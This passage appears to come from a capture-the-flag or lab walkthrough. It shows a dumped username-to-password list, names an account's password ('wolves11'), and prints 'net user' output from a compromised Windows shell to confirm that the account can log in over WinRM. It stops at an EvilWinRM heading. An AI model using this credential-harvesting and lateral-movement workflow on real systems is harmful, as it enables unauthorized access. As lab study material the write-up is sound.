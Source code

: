 ```
robive = andwhich
ronkay = onesare
rubkei = the
rupkel = sheeps
ryakel = imtired
sabken = drjones
samken = aqua
sapket = hamburger
sarkil = friday

```

nathen’s password matches what I used to get into Azure DevOps. robisl (one of the users with a home directory from above) is on the list with the password “wolves11”. robisl is also in the “Remote Management Users” group:

```

W:\svnrepos\www\conf>net user robisl
net user robisl
User name                    robisl
Full Name                    Robin Islip
Comment                      
User's comment               
Country/region code          000 (System Default)
Account active               Yes
Account expires              Never

Password last set            2020-04-05 21:27:26
Password expires             Never
Password changeable          2020-04-05 21:27:26
Password required            No
User may change password     No

Workstations allowed         All
Logon script                 
User profile                 
Home directory               
Last logon                   2020-08-03 12:41:02

Logon hours allowed          All

Local Group Memberships      *Production           *Remote Management Use
Global Group memberships     *None                 
The command completed successfully.

```

That means robisl can connect over WinRM.

### EvilWinRM
